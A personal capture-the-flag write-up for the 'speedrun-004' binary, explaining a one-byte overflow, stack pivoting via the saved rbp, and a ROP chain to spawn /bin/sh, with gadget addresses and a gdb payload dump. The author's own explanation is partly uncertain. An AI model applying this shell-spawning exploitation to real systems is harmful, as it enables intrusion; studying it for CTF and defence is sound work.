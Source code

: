 # Stack pivoting

* speedrun-004
    64 bits, LSB, statically linked, NX.

    Asks for two inputs and displays some text.

    With ghidra:
    * pretty big, long to analyse
    * no reference to "flag" string in the code, so we probably need to open a shell
    * interesting method at `0x00400b73`, because there is a buffer and a call to a read method.

    The interesting method is called if we input a first value between 1 and 0x102, which seems to be the length of the second input we can give.

    At this place:
    stack: 0x7fffffffdb30 (BTW the stack is 256 bytes long, and the input can be 0x101 = 257 -> 1 byte overflow)
    eip: 0x7fffffffdc38
    -> delta of 0x108 -> too much, bad candidate ?

    It is indeed the candidate we were seeking, but with an attack called "stack pivot", where we overwrite the least value of the base pointer (rbp). When we exit the current, we will go into another method that will just exit, so the rbp we modified will become the return pointer (or maybe I'm completely wrong).

    Then since it is an ROP let's get our gadgets:
    ```
    ROPgadget --binary speedrun-004 --ropchain
    ```
    mov: 0x47f521 mov qword ptr [rsi], rax ; ret
    rax: 0x415f04 pop rax ; ret
    rdi: 0x400686 pop rdi ; ret
    rsi: 0x410a93 pop rsi ; ret
    rdx: 0x44a155 pop rdx ; ret
    sys: 0x40132c syscall

    For reminder the args need to be like this (thanks [syscall table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)):
    rax = 0x3b, rdi = "/bin/sh", rsi = 0x0, rdx = 0x0

    Note to self: by using my own gadgets but following most of the tutorial's answer, I ended up using the mov instruction in the wrong way (it is the only different gadget it seems). So be wary next time !

    Just an overview of the memory layout after the payload was sent:
    ```gdb
    0x7ffeb0a76000:	0x0000000000400416	0x0000000000400416 <-- ret gadgets (probably more before too)
    0x7ffeb0a76010:	0x0000000000400416	0x0000000000400416
    0x7ffeb0a76020:	0x0000000000400416	0x0000000000400416
    0x7ffeb0a76030:	0x0000000000400416	0x0000000000400416 <-- ret gadgets (end)
    0x7ffeb0a76040:	0x0000000000410a93	0x00000000006b6030 <-- writing /bin/bash (prep)
    0x7ffeb0a76050:	0x0000000000415f04	0x0068732f6e69622f <-- writing /bin/bash (the string value)
    0x7ffeb0a76060:	0x000000000047f521	0x0000000000415f04 <-- writing /bin/bash (mov) + start of execve
    0x7ffeb0a76070:	0x000000000000003b	0x0000000000400686
    0x7ffeb0a76080:	0x00000000006b6030	0x0000000000410a93
    0x7ffeb0a76090:	0x0000000000000000	0x000000000044a155
    0x7ffeb0a760a0:	0x0000000000000000	0x000000000040132c <-- end of execve (syscall)
    0x7ffeb0a760b0:	0x00007ffeb0a76000	0x0000000000400c44 <-- overwritten ebp (least byte) + eip
    ```

    See how the overwritten ebp points back to a ret gadget. But since the addresses are random we might need to execute the pwn several times.

# about stack pivoting

From what I saw stack pivoting happens when at the return of a function the eip register points to instructions that will also return. By having a `ret` just after the return of a call the ebp register that was used in the call will be used as a eip just after.